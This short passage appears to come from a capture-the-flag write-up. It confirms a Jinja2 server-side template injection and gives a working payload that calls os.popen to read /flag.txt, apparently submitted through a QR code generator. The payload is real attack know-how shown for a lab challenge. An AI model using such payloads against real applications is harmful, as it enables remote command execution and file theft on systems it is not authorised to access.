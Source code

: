 !["ssti worked"](9.png "ssti worked")

So since the it returned `49` this confirmed the SSTI. Now let's try inject some Jinja2 payload to get RCE and read the flag.

Payload: `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}`

!["generating qr to read the flag"](10.png "generating qr to read the flag")
